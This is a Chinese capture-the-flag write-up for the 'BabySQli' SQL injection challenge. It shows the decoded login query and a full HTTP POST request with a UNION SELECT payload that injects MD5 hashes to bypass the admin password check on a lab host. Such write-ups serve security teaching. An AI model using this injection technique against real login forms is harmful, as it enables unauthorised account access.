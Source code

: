 # [GXYCTF2019]BabySQli

## 题目描述
---
```

```

## 题目来源
---


## 主要知识点
---
SQL注入

## 题目分值
---


## 部署方式
---


## 解题思路
---

![](images/ctf-2021-06-19-16-18-46.png)

MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5

![](images/ctf-2021-06-19-16-19-35.png)

解码后为`select * from user where username = '$name'`

首先判断`order by`

```
POST /search.php HTTP/1.1
Host: 48819129-55ab-487e-a589-36baaad868d8.node3.buuoj.cn
Content-Length: 112
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://48819129-55ab-487e-a589-36baaad868d8.node3.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://48819129-55ab-487e-a589-36baaad868d8.node3.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17801970b9036a-07ec5d7cc7482b-53e356a-1fa400-17801970b91251
Connection: close

name=admin2' union select "c4ca4238a0b923820dcc509a6f75849b","admin","eccbc87e4b5ce2fe28308fd9f2a7baf3" -- &pw=3
```

![](images/ctf-2021-06-19-16-18-18.png)

## 参考
---
